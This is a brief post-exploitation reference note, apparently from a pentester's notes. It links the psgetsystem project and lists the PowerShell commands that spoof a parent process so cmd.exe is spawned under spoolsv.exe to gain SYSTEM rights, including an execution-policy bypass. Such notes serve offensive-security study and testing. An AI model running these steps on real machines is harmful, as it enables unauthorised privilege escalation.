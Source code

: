 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```

[GitHub - decoder-it/psgetsystem: getsystem via parent process using ps1 & embedded c#](https://github.com/decoder-it/psgetsystem)

Impersonate user via parent process spoofing using ps1 and embedded c#. Parent PID Spoofing can be executed through the [psgetsystem project](https://github.com/decoder-it/psgetsystem) in the following manner.

```
powershell -ep bypass
```
```
Import-Module .\psgetsys.ps1 
```
```
[MyProcess]::CreateProcessFromParent([Process ID of spoolsv.exe],"C:\Windows\System32\cmd.exe","")
```

